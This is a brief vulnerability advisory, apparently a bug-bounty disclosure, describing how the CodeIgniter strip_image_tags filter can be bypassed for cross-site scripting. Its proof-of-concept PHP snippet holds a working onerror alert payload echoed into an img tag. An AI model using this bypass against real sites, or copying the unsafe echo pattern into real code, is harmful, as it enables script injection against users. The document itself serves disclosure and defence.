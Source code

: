 ## Description

CodeIgniter is a PHP full-stack web framework that is light, fast, flexible, and secure.

This package is vulnerable to Cross-site scripting and can be exploited by bypassing the strip_image_tags function filter.

## POC

1. Install via composer by following this [link](https://codeigniter.com/user_guide/installation/installing_composer.html)
2. Update the index method code on `app/Controllers/Home.php`
```
helper('security');

$payload = 'http://www.example.com/x" onerror=alert(1)//';
$imageurl = strip_image_tags($payload);
echo '<img src="'.$imageurl.'">';
```
3. Run the app to verify the vulnerability by following this [link](https://codeigniter.com/user_guide/installation/running.html#local-development-server)
